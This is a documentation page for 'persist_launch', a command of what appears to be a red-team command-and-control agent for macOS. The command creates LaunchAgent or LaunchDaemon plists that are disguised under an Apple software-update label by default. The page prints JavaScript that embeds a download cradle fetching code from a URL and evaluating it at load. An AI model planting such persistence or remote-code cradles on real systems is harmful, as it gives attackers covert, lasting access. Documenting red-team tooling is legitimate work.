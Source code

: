 ```yaml
---
title: "persist_launch"
description: "Create a launch agent or daemon plist file and either automatically put it in ~/Library/LaunchAgents or if LocalAgent is false, save it to the specified location. If you want an elevated launch age..."
---
```


## Summary

Create a launch agent or daemon plist file and either automatically put it in ~/Library/LaunchAgents or if LocalAgent is false, save it to the specified location. If you want an elevated launch agent or launch daemon( /Library/LaunchAgents or /Library/LaunchDaemons), you either need to be in an elevated context already and specify the path or use something like shell_elevated to copy it there. 

If the first arg is 'apfell-jxa' then the agent will automatically construct a plist appropriate oneliner to use where arg1 should be the URL to reach out to for the payload. 
- Needs Admin: False  
- Version: 1  
- Author: @its_a_feature_  

### Arguments

#### args

- Description: List of arguments to execute in the ProgramArguments section of the PLIST  
- Required Value: True  
- Default Value: None  

#### KeepAlive

- Description: Restart the persistence if it crashes for some reason  
- Required Value: True  
- Default Value: True  

#### label

- Description: The label for the launch element  
- Required Value: True  
- Default Value: com.apple.softwareupdateagent  

#### LaunchPath

- Description: Path to save new plist to if LocalAgent is false  
- Required Value: False  
- Default Value: None  

#### LocalAgent

- Description: Should be a local user launch agent?   
- Required Value: True  
- Default Value: True  

#### RunAtLoad

- Description: Should the launch element be executed at load  
- Required Value: True  
- Default Value: True  

## Usage

```
persist_launch
```

## MITRE ATT&CK Mapping

- T1159  
- T1160  
## Detailed Summary

This function can create a variety of different Launch* elements depending on the flags. The most confusing piece if probably the arguments section:
- If the first argument is `apfell-jxa` then that indicates to the agent that you want to create a plist with a download cradle in it. In this case, the second argument should be the URL that contains the payload. This can be seen with the code below:
```javascript
if(config.hasOwnProperty('args') && config['args'].length > 0){
    if(config['args'][0] === "apfell-jxa"){
        // we'll add in an apfell-jxa one liner to run
        template += "<string>/usr/bin/osascript</string>\n" +
        "<string>-l</string>\n" +
        "<string>JavaScript</string>\n" +
        "<string>-e</string>\n" +
        "<string>eval(ObjC.unwrap($.NSString.alloc.initWithDataEncoding($.NSData.dataWithContentsOfURL($.NSURL.URLWithString('" +
        config['args'][1] + "')),$.NSUTF8StringEncoding)))</string>\n"
    }
    else{
        for(let i = 0; i < config['args'].length; i++){
            template += "<string>" + config['args'][i] + "</string>\n";
        }
    }
}
```
If the first argument isn't `apfell-jxa`, then you indicate to the agent that you have some other path + arguments you want to execute with the persistence mechanism (such as another binary or script you already dropped to disk).

